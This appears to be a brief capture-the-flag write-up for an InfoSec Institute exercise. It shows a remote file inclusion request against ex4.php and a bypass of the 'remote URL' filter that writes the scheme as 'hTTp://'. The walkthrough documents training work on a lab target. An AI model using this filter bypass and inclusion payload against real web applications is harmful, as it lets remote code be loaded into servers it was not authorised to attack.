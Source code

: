 First try to do request

> http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/file4.txt.php

well we got error

`You are trying to add a remote URL.`

try to bypass this

> http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/file4.txt.php

done.
